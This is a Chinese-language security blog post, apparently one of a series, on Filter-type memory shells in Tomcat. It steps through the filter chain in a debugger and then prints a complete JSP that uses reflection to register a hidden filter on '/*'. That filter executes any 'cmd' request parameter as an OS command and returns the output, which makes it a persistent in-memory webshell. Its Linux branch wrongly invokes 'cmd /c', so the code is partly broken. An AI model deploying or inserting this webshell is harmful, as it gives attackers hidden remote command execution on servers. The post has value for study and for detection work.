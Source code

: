```yaml
---
title: JAVA安全-内存马-Filter型
date: 2025-10-14 20:00:00
tags: JAVA
categories: Java安全-内存马
---
```


## 访问filter之后的流程

上篇环境搭建时自定义了一个`filter`类，这篇逐步调试查看一下这个`filter`类的流程

在我们自定义的`filter`类的`doFilter`方法打上断点，然后访问`/filter`开始调试

![image-20251013162943054](https://image.liam317.top/2025/10/b1d17d2bd2383ae13ee6ef3838cec1b9.png)

在`filterChain.doFilter`处步入，检查有没有开启安全服务，下一步就跳到了if判断的else阶段，步入这个函数

![image-20251013163058138](https://image.liam317.top/2025/10/7941d36185492991424df7e7480a2cbe.png)

![image-20251013163103290](https://image.liam317.top/2025/10/7409d0430c64a0cc3657f5f814888af8.png)

可以看到`ApplicaationFilterConfig`是有两个元素的，`0`是我们自定义的，`1`是`tomcat`自带的，目前pos等于1，通过`ApplicationFilterConfig filterConfig = this.filters[this.pos++];`取到`tomcat`自带的`filter`类

![image-20251013163213351](https://image.liam317.top/2025/10/2f6420c673922d0be7497ec6cf95fa36.png)

然后往下调试就进入到`tomcat`自带的`filter`类的`doFilter`方法

这个if语句判断为false，这个应该是判断是否是注册的最后一个元素

![image-20251013163501511](https://image.liam317.top/2025/10/339d2d3020f8f1b4bc4d03e15dd2430b.png)

会进入到`else`的`chain.doFilter`方法

![image-20251013163520310](https://image.liam317.top/2025/10/bcf9453c77fee45e051e0e1239b2aa5b.png)

然后又回到了`ApplicationFilterChaind.class`的`doFilter`函数，然后又进入到了`internalDoFilter`函数

![image-20251013163827969](https://image.liam317.top/2025/10/5a4bc23f3bcbb01173b19b613ab0863a.png)

这次不满足if条件，往下一直调试就会到`servlet.service`

![image-20251013163905997](https://image.liam317.top/2025/10/a8eac73b2c42814aaf089e6a3e8440a7.png)

### 总结一下

会有多个`filter`，先是从数组的后往前取，最终调用的是最后一个`filter的servlet.service`

上一个 `Filter.doFilter()` 方法中调用` FilterChain.doFilter() `方法将调用下一个 `Filter.doFilter()` 方法；这也就是我们的 Filter 链，是去逐个获取的。

# 完整代码

```jsp
<%--
  User: Drunkbaby
  Date: 2022/8/27
  Time: 上午10:31
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>

<%
    final String name = "Drunkbaby";
    // 获取上下文
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null) {
                    boolean isLinux = true;
                    String osTyp = System.getProperty("os.name");
                    if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                        isLinux = false;
                    }
                    String[] cmds = isLinux ? new String[] {"cmd", "/c", req.getParameter("cmd")} : new String[] {"cmd.exe", "/c", req.getParameter("cmd")};
                    InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                    Scanner s = new Scanner( in ).useDelimiter("\\a");
                    String output = s.hasNext() ? s.next() : "";
                    servletResponse.getWriter().write(output);
                    servletResponse.getWriter().flush();
                    return;
                }
                filterChain.doFilter(servletRequest, servletResponse);
            }

            @Override
            public void destroy() {

            }

        };

        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name, filterConfig);
        out.print("Inject Success !");
    }
%>
<html>
<head>
    <title>filter</title>
</head>
<body>
    Hello Filter
</body>
</html>

```

